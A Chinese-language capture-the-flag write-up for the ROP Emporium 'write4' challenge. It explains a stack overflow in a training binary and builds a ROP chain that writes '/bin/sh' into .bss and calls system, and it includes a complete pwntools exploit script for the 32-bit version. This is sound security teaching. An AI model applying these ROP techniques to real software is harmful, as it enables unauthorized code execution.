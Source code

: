 ```yaml
---
title: ROP Emporium の write4
date: 2020-06-02 12:06:01
categories:
- WriteUPs
- ROP Emporium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

[ROP Emporium](https://ropemporium.com)训练3：write4的解析。

<!-- more -->

## write432

### Step 1

程序正常运行截图：

![](/img/write4/write4-1.png)

checksec：32位程序，只开启了DEP保护,依然是用ROP Chain解决DEP保护的问题

![](/img/write4/write4-2.png)

### Step 2

把程序丢到hopper中看下，发现依然有pwnme函数，依然是fgets函数存在溢出漏洞。

![](/img/write4/write4-3.png)

同时程序中程序中依然存在system函数，可以执行系统命令：

![](/img/write4/write4-4.png)

以及一个usefulFunction函数：

![](/img/write4/write4-5.png)

但是函数只能看到有什么文件而无法看到flag.txt文件里有什么内容。

有了system函数我们就想着去找’/bin/sh’或者’/bin/cat flag.txt’字符串：

![](/img/write4/write4-6.png)

意料之中的啥也没有，那么在结合题目给我们的提示，可能我们得自己往内存中写入‘bin/sh’字符串。

### Step 3

找一下系统中的段，把数据写入.data或者.bss的段中去：

![](/img/write4/write4-7.png)

看了下这两个段发现均无任何数据且均具有写权限所以写到任意那个地方都是可以的，只要内存区域的大小够即可：

![](/img/write4/write4-8.png)

下一步就要考虑怎么写数据，在程序的函数中发现这样一个有趣的函数：

![](/img/write4/write4-9.png)

通过这个函数我们可以向内存中写入数据，但是我们还需要一个指令段控制edi和ebp，所以通过ROPgadget找一下：

![](/img/write4/write4-10.png)

### Step 4

整个ROP Chain的构造及运行示意图如下：

![](/img/write4/write4-11.png)

最后就是构造payload了，32位程序还有一点需要注意就是每次只能写入dword也就是4字节，所以’/bin/sh’需要分成两次写入，下面直接给出EXP脚本：

```Python
* # coding:utf-8
* from pwn import *
* 
* sh = process('./write432')
* elf = ELF('./write432')
* 
* bss_addr = 0x0804a040 #.bss段开始的地址
* sys_addr = elf.symbols['system'] #system函数入口地址
* mov_addr = 0x08048670 #把字符串写入.bss段的sub_8048670函数入口地址即mov dword [edi], ebp ; ret
* pop_addr = 0x080486da #控制edi和ebp指令段地址即pop edi ; pop ebp ; ret
* 
* payload = 'a' * (0x28 + 0x4) #padding
* payload += p32(pop_addr) + p32(bss_addr) + '/bin' + p32(mov_addr) #第一次写入
* payload += p32(pop_addr) + p32(bss_addr+ 4) + '/sh\0' + p32(mov_addr) #第二次写入，注意截断符(‘\0’或者‘\x00’都可以）
* payload += p32(sys_addr) + p32(0xdeadbeef) + p32(bss_addr) #调用system函数执行/bin/sh
* 
* sh.recvuntil('>')
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

EXP运行截图：

![](/img/write4/write4-12.png)

## write4

64位程序和32位程序基本一致，只不过在传入数据的时候可以一次性传入’/bin/sh\0’，这样更加简单。

其他的部分和32位程序毫无差别，有兴趣可自行尝试，这里就不详细赘述了。

## P.S.

也许会纳闷在程序中有一个usefulFunction的函数，执行的是‘/bin/ls’的命令。那么既然本题我们可以向内存中写入字符串，那么是否可以修改这个函数的命令实现get shell呢。

实际是不可以的，因为在程序中我们可以看到这个函数中的参数放在.rodata这个段，顾名思义这是read only的数据段，是没有写入权限的，所以无法通过修改usefulFunction函数的参数实现。

![](/img/write4/write4-13.png)

![](/img/write4/write4-14.png)

